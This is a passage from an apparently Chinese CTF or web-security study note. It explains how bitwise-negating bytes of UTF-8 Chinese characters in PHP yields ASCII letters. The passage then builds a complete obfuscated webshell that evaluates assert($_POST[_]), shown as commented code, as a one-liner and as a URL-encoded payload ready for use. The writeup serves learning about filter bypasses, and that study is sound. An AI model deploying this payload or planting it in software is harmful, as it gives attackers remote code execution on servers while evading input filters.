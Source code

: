 方法二

方法二是我看p神博客才了解到的方法，就是说利用的是UTF-8编码的某个汉字，并将其中某个字符取出来，然后再进行一次取反操作，就能得到一个我们想要的字符，这里的原理我确实是不知道，因为这里好像是涉及到计组知识而我现在还没学，害，现在就只有先学会怎么用，原理后面再补了

![img](assets/202304161656994.png)

这里之所以会输出两个相同的r，就是因为里面$_{1}就是\x8d，然后这里对\x86进行取反就能得到r，原理不详

总之我们需要知道的是，对于一个汉字进行~($x{0})或~($x{1})或~($x{2})的操作，可以得到某个ascii码的字符值，我们就可以利用这一点构造出webshell

```php
$_++;                //得到1，此时$_=1
$__ = "极";
$___ = ~($__{$_});   //得到a，此时$___="a"
$__ = "区";
$___ .= ~($__{$_});   //得到s，此时$___="as"
$___ .= ~($__{$_});   //此时$___="ass"
$__ = "皮";
$___ .= ~($__{$_});   //得到e，此时$___="asse"
$__ = "十";
$___ .= ~($__{$_});   //得到r，此时$___="asser"
$__ = "勺";
$___ .= ~($__{$_});   //得到t，此时$___="assert"
$____ = '_';          //$____='_'
$__ = "寸";
$____ .= ~($__{$_});   //得到P，此时$____="_P"
$__ = "小";
$____ .= ~($__{$_});   //得到O，此时$____="_PO"
$__ = "欠";
$____ .= ~($__{$_});   //得到S，此时$____="_POS"
$__ = "立";
$____ .= ~($__{$_});   //得到T，此时$____="_POST"
$_ = $$____;           //$_ = $_POST
$___($_[_]);           //assert($_POST[_])
放到一排就是：
$_++;$__ = "极";$___ = ~($__{$_});$__ = "区";$___ .= ~($__{$_});$___ .= ~($__{$_});$__ = "皮";$___ .= ~($__{$_});$__ = "十";$___ .= ~($__{$_});$__ = "勺";$___ .= ~($__{$_});$____ = '_';$__ = "寸";$____ .= ~($__{$_});$__ = "小";$____ .= ~($__{$_});$__ = "欠";$____ .= ~($__{$_});$__ = "立";$____ .= ~($__{$_});$_ = $$____;$___($_[_]);
```

由于不可见字符的原因，我们还是要进行url编码之后才能正常使用：

%24_%2B%2B%3B%24__%20%3D%20%22%E6%9E%81%22%3B%24___%20%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8C%BA%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E7%9A%AE%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8D%81%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%8B%BA%22%3B%24___%20.%3D%20~(%24__%7B%24_%7D)%3B%24____%20%3D%20'_'%3B%24__%20%3D%20%22%E5%AF%B8%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E5%B0%8F%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E6%AC%A0%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24__%20%3D%20%22%E7%AB%8B%22%3B%24____%20.%3D%20~(%24__%7B%24_%7D)%3B%24_%20%3D%20%24%24____%3B%24___(%24_%5B_%5D)%3B
